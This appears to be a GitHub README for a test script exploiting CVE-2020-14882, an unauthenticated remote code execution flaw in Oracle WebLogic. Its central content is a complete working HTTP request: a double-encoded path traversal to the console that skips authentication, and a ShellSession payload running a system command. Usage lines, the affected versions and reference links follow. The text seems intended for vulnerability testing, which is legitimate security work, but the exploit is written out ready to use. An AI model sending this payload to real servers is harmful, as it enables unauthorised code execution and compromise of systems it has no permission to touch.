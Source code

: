 # (CVE-2020–14882) Weblogic Unauthorized bypass RCE
(CVE-2020-14882) Oracle Weblogic Unauthorized bypass RCE test script

# Requests

    POST /console/images/%252E%252E%252Fconsole.portal HTTP/1.1
    Host: <Target IP>
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-type: application/x-www-form-urlencoded; charset=utf-8
    Content-Length: 128

    _nfpb=false&_pageLable=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('ipconfig');");
    
Test script checks response data with pcre. 

# Usage 
    - 7001/tcp (WebLogic default port) 
    Oracle Weblogic Auth Bypass RCE(CVE-2020–14882).py <Target IP>
    
    - specific port/tcp 
    Oracle Weblogic Auth Bypass RCE(CVE-2020–14882).py <Target IP> <port>
# Affected Version 
WebLogic 10.3.6.0.0

WebLogic 12.1.3.0.0

WebLogic 12.2.1.3.0

WebLogic 12.2.1.4.0

WebLogic 14.1.1.0.0

# PoC 
https://github.com/jas502n/CVE-2020-14882

# reference 
https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf
https://www.tenable.com/blog/cve-2020-14882-oracle-weblogic-remote-code-execution-vulnerability-exploited-in-the-wild
